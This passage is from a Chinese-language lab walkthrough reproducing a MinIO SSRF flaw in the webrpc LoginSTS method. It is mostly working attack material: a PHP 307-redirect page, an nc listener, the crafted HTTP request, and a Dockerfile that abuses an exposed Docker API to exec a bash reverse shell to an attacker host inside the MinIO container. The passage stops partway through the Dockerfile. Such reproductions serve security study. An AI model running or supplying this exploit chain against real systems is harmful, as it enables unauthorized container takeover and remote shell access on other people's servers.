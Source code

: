 开启一个简单的http服务

`php -S 0.0.0.0:80`

我们让其重定向去访问 http://192.168.203.130:8080

在192.168.203.130的8080端口启动NC监听

`sudo nc -lvp 8080`

发送数据包

```http
POST /minio/webrpc HTTP/1.1
Host: 192.168.203.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":"Test"},"method":"web.LoginSTS"}
```

![Snipaste_2023-05-14_23-07-35](http://qn.laohuan.xin/Snipaste_2023-05-14_23-07-35.png)

可以看到我们的8080端口确实收到了请求

利用过程如图

![minio](http://qn.laohuan.xin/minio.png)

这里黑客指定地址如上面的代码，也就是http://192.168.203.130:8080，假如我们把这个地址换为其他地址呢，比如docker api或者内网其他服务的地址。

现在尝试攻击docker api的2375端口

在黑客服务器上编辑index.php文件,内容如下

`<?php
header('Location: http://192.168.203.130:2375/build?remote=http://192.168.203.130/Dockerfile&nocache=true&t=evil:1', false, 307);`

这里的两个地址需要做一个说明，我这里为了方便在一台机子上做的测试，在实际环境中地址不同。

* http://192.168.203.130:2375/build  docker api的地址
* remote=http://192.168.203.130/Dockerfile  黑客服务器的地址

编辑Dockerfile文件，内容如下

```bash
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
{ \
	echo '#!/bin/bash'; \
	echo 'set -ex'; \
	echo 'target="http://192.168.203.130:2375"'; \
	echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
	echo 'for item in ${jsons[@]}; do'; \
	echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
	echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
	echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
	echo '        break'; \
	echo '    fi'; \
	echo 'done'; \
	echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.203.130/8080 0>&1\"]}" | jq -r ".Id")'; \
	echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
```